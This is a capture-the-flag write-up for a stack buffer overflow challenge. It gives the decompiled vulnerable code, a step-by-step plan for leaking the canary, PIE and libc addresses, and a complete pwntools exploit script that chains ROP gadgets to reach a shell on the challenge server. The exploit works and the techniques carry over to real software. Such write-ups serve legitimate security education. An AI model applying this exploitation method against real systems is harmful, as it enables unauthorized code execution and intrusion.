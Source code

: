 # Warmup 2

```
score: 50
solved: xx
difficulty: easy
tags: pwn, bof
```

# Challege

Having `libc6_2.31-0ubuntu9.8_amd64.so`

Have checksec result:
<pre>    Arch:     amd64-64-little
    RELRO:    <font color="#4E9A06">Full RELRO</font>
    Stack:    <font color="#4E9A06">Canary found</font>
    NX:       <font color="#4E9A06">NX enabled</font>
    PIE:      <font color="#4E9A06">PIE enabled</font>
</pre>

`main` function:
```c
undefined8 main(void)

{
  alarm(0x3c);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  vuln();
  return 0;
}
```

`vuln` function:
```c
void vuln(void)

{
  long in_FS_OFFSET;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What\'s your name?");
  read(0,local_118,0x1337);
  printf("Hello %s!\n",local_118);
  puts("How old are you?");
  read(0,local_118,0x1337);
  printf("Wow, I\'m %s too!\n",local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

# Got the flag

Our aim is call `system("/bin/sh")` from `libc`. We have to leak somethings at here. We have 2 times for BOF in the `vuln` function. Follow steps to pwn:

1. Firstly, we will leak `Canary` and `rbp` before want to override anything. We will leak via make `local_118` fill and `Canary` and `saved rbp` will follow the string. Note that `Canary` have 0x00 at the lowest byte. Then, we override `return address` to return the `vuln` function calling in `main` and `rbp` with the leaked value function to have more BOF change to return more things.

2. Secondly, we will leak `libc` address via calling the ROP with stack struct to leak `puts` address in `libc`:
```
-------------------
pop rdi; ret
-------------------
address of puts@got
-------------------
puts@plt
-------------------
```
Do it again with `read` or `setbuf` or any function to leak 1 more `libc` address.

3. After having at least 2 address of libc's function. Try to search in [libc's database](https://libc.rip/) or [https://libc.blukat.me/](https://libc.blukat.me/) to find version of libc and offset of `system` function and `/bin/sh` strings.

4. Do manual call `system(/bin/sh)` or finding base address and using `one_gadget` for `libc` file and call it.

# Exploit poc

With noob level of code:
```py
from pwn import *
import time

elf = ELF("./chal")
# p = process(elf.path)
p = remote("warmup2.ctf.maplebacon.org",1337)
def get_PIE(proc):
    memory_map = open("/proc/{}/maps".format(proc.pid),"rb").readlines()
    return int(memory_map[0].split(b"-")[0],16)

def debug(bp):
    script = "init-gef\n"
    PIE = get_PIE(p)
    for x in bp:
        script += "b *0x%x\n"%(PIE+x)
    gdb.attach(p,gdbscript=script)

def return_main():
    # return to main and can leak or exploit again:
    payload = b"A" *0x108
    payload += p64(canary)
    payload += p64(rbp_leak)
    payload += b"\xdd"
    p.send(payload)
    time.sleep(0.5)

def return_rop(rop):
    p.recv()
    payload = b"A"*0x108
    p.send(payload)
    time.sleep(0.5)
    p.recv()
    payload = b"A" *0x108
    payload += p64(canary)
    payload += p64(rbp_leak)
    payload += rop
    p.send(payload)
    time.sleep(0.5)

# debug([0x129d])

# for leak:
# leak canary + rbp
p.recv()
payload = b"A"*0x108
payload += b"`"
p.send(payload)
time.sleep(0.5)
leak = p.recv()
leak = leak[leak.find(b"`")+1:]
canary = leak[:7]
rbp_leak = leak[7:7+6]
canary = u64(canary.rjust(8,b"\x00"))
rbp_leak = u64(rbp_leak.ljust(8,b"\x00"))
log.success("Canary : {}".format(hex(canary)))
log.success("rbp: {}".format(hex(rbp_leak)))
time.sleep(0.5)
return_main()

# leak PIE:
p.recv()
payload = b"A" *0x108
payload += b"A" * 15
payload += b"`"
p.send(payload)
time.sleep(0.5)
leak = p.recv()
pie = leak[leak.find(b"`")+1:][:6]
pie = u64(pie.ljust(8, b"\x00")) - 0x12e2
elf.address = pie
log.success("PIE: {}".format(hex(pie)))
return_main()

# leak libc:
log.info("Starting leak libc...")
pop_rdi = 0x1353
pop_rsi_r15 = 0x1351
rop = b""
rop += p64(pie + pop_rdi)
rop += p64(elf.got.setbuf)
rop += p64(elf.plt.puts)
rop += p64(elf.symbols.vuln)
return_rop(rop)
p.recvuntil(b"\n")
x = p.recvn(6)
read_libc = u64(x[:6].ljust(8,b"\x00"))
log.success("libc setbuf: {}".format(hex(read_libc)))
rop = b""
rop += p64(pie + pop_rdi)
rop += p64(elf.got.puts)
rop += p64(elf.plt.puts)
rop += p64(elf.symbols.vuln)
return_rop(rop)
p.recvuntil(b"\n")
x = p.recvn(6)
puts_libc = u64(x[:6].ljust(8,b"\x00"))
log.success("libc puts: {}".format(hex(puts_libc)))
rop = b""
rop += p64(pie + pop_rdi)
rop += p64(elf.got.read)
rop += p64(elf.plt.puts)
rop += p64(elf.symbols.vuln)
return_rop(rop)
p.recvuntil(b"\n")
x = p.recvn(6)
read_libc = u64(x[:6].ljust(8,b"\x00"))
log.success("libc read: {}".format(hex(read_libc)))
# system_libc = read_libc - 0x10dfc0 + 0x52290
# str_bin_sh = read_libc - 0x10dfc0 + 0x1b45bd
# system_libc = read_libc - 0x10dff0 + 0x522c0
# str_bin_sh = read_libc - 0x10dff0 + 0x1b45bd
gadget = read_libc - 0x10dfc0 + 0xe3b01
rop = b""
rop += p64(gadget)
# rop += p64(pie + pop_rdi)
# rop += p64(str_bin_sh)
# rop += p64(system_libc)
return_rop(rop)

p.interactive()
```
